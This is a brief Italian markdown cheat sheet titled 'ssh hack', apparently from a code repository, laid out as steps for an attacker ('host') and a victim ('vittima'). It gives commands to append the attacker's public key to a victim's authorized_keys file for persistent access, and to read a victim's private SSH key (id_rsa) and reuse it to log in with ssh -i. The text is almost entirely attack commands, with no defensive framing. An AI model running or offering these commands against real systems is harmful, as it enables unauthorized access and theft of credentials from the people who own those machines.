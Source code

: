 # ssh hack

## aggiungere PUB_KEY 

host:
```
ssh-keygen -t rsa
export PUBLIC_KEY=$(cat <key.pub>)
```

vittima:
```
mkdir -p /home/<USER>/.ssh
echo $PUBLIC_KEY >> /home/<USER>/.ssh/authorized_keys
```


## furto della PRIV_KEY

vittima (copiare negli appunti):
```
cat /<USER>/.ssh/id_rsa
```

host (incollare `./priv_key`):
```
ssh -i priv_key <IP>
```